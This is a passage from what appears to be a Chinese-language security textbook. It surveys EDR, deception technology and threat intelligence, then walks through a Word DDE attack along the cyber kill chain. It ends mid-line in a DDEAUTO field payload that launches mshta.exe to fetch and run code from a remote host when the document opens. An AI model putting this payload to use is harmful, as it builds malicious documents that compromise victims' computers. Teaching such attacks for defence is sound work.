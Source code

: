随着移动性、云和物联网的快速适应，企业面临的潜在威胁越来越多。事实上，一些最流行的技术，如**自带设备** ( **BYOD** )使得内部威胁的概率和得分更高。即使在预防性安全上花费了数百万美元，它仍然无法提供完全的保证，这使得组织探索各种新兴的安全防御技术，以检测和打击成功绕过现有安全系统的高级威胁。在许多跨国组织中，**首席信息安全官** ( **CISO** )同时身兼数职。2018 年，每个 CISO 都将做出一些关于其组织安全的关键决策。

这里提到了一些新兴的安全防御措施。

# 端点检测和响应(EDR)

EDR 是一种解决方案，旨在检测和删除网络中的恶意活动。EDR 解决方案通常包括以下四种功能:

*   通过持续监控终端来检测威胁
*   收集和调查日志，并将它们与每个端点活动的历史事件进行比较和关联
*   响应资源的危险尝试并将其从网络中移除
*   终止未授权的进程，将端点置于正常状态

# 欺骗技术

欺骗已经被古代军队用于世界大战，现在又被用于网络世界。简而言之，这是一种允许攻击者穿透诱饵目标系统的技术。通过欺骗，企业可以检测到攻击者，并深入了解他们的行为和产品，这将有助于提高他们的防御能力。这可以通过多级堆栈进行扩展，包括网络设备、端点和应用程序。

# 网络威胁情报(CTI)

CTI 是一种分析对手能力的方法。在网络空间中，它通常以一种危害指标的形式传递，包括恶意的 IP 地址、域名、哈希等等。对于组织来说，了解他们的资产、人员和每个连接的第三方至关重要，这样他们就可以准备自己的威胁情报并计划加强防御。

# 现场攻击执行

在最近的攻击中，对手运行了从 Microsoft Word 文档执行的任意代码，而没有使用任何宏或脚本。这项技术是一个名为**动态数据交换** ( **DDE** )的合法的微软 office 功能。

让我们试着从网络杀伤链的角度来看这次攻击。网络杀伤链用于描述攻击阶段:

*   **侦察**:这是一个计划阶段，攻击者通过观察或其他探测方法收集关于某事物的信息。网络攻击规划和侦察通常包括对目标进行研究，通常使用开源信息收集工具，如 Google 和 Shodan，以及通过搜索公开可用的数据，如公告和社交媒体、电子邮件的公司简介和电子邮件收集。
*   **武器化:**在这个阶段，威胁行动者计划正确的攻击方法。威胁参与者甚至可以计划利用员工的电子邮件进行网络钓鱼，甚至进行驾车下载攻击。在我们的例子中，首先，我们将创建一个恶意文档。在空白文档中，转到插入|快速部件|字段...选项卡，如以下截图所示:

![](../images/00007.jpeg)

在字段名对话框中，选择=(Formula)选项来插入我们的 DDE 漏洞利用代码:

![](../images/00008.jpeg)

此后，您将在文档中看到一个包含错误的字段:！公式意外结束。右键单击该字段，并选择切换字段代码选项。您需要这样做，以便在文本字段中创建 DDE 对象有效负载，当文档打开时，它将启动恶意软件或我们选择的任何代码:

![](../images/00009.jpeg)

在文本字段中，输入以下代码:

```
DDEAUTO C:\Programs\Microsoft\Office\MSword.exe\..\..\..\..\windows\system32\mshta.exe "http://192.168.1.101:8080/8b0HTF3MdgqYqgK
```
